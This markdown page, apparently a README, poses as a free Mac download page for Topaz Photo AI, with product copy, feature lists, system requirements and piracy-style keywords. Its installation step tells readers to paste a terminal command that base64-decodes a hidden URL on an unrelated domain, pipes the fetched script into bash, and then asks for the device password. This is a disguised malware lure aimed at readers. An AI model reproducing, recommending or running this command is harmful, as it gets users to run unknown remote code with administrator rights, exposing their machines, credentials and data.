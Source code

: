 
# Topaz Photo Ai Mac Download

![Topaz Photo Ai Screenshot](https://img.utdstc.com/icon/c66/e97/c66e977f1849d164661369c7b23e7f537c8f6f043e014d767f899484a8df3836:200)

---

## 📦 How to Install

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📦 What is Topaz Photo Ai for Mac?

Topaz Photo Ai for Mac is a next-generation photo enhancement tool that brings powerful AI to the fingertips of photographers, designers, and content creators. It intelligently removes noise, sharpens images, and enhances resolution, delivering professional-quality results without the need for deep manual adjustments.

Whether you’re dealing with low-resolution or noisy images, Topaz Photo Ai automatically analyzes and applies the most effective adjustments. It combines multiple AI models—such as Sharpen AI, Denoise AI, and Gigapixel AI—into one cohesive platform that streamlines your editing workflow.

Perfectly suited for macOS environments, Topaz Photo Ai offers a responsive interface, batch processing for large projects, and compatibility with common photo formats. It also integrates as a plugin with tools like Photoshop or Lightroom, making it an indispensable companion in any editing pipeline.

From casual users wanting clean, clear memories to professional photographers needing efficient, scalable editing, Topaz Photo Ai for Mac ensures your images reach their full visual potential.

![Topaz Photo Ai Screenshot 2](https://community-cdn.topazlabs.com/original/3X/3/a/3a3441d92ded1bab4f8c9a5beb66d128759c92f5.png)

---

## 🌟 Key Features & Benefits

- 🤖 AI-Powered Noise Reduction — Preserve fine details while eliminating noise  
- 🔍 Smart Sharpening — Improve image clarity with precision edge recognition  
- 📈 Intelligent Upscaling — Enlarge images with natural sharpness and minimal artifacts  
- 🧠 Unified Interface — Combines sharpening, denoising, and upscaling into one tool  
- ⚡ Batch Processing — Process large sets of images efficiently  
- 🧩 Plugin Support — Works with Lightroom, Photoshop, and other software  
- 🖥️ Native macOS Compatibility — Optimized for both Intel and Apple Silicon Macs  

---

## 🖥️ System Requirements

- **macOS:** 10.14 Mojave or later  
- **Processor:** Intel or Apple Silicon (M1, M2, M3)  
- **RAM:** 8 GB or more  
- **Disk Space:** 1.5 GB available  

---

## 🏷️ Keywords

topaz photo ai mac download, topaz photo ai mac,  
topaz photo ai mac free, topaz photo ai free download,  
download topaz photo ai mac free, topaz photo ai trial mac,  
topaz photo ai full version mac
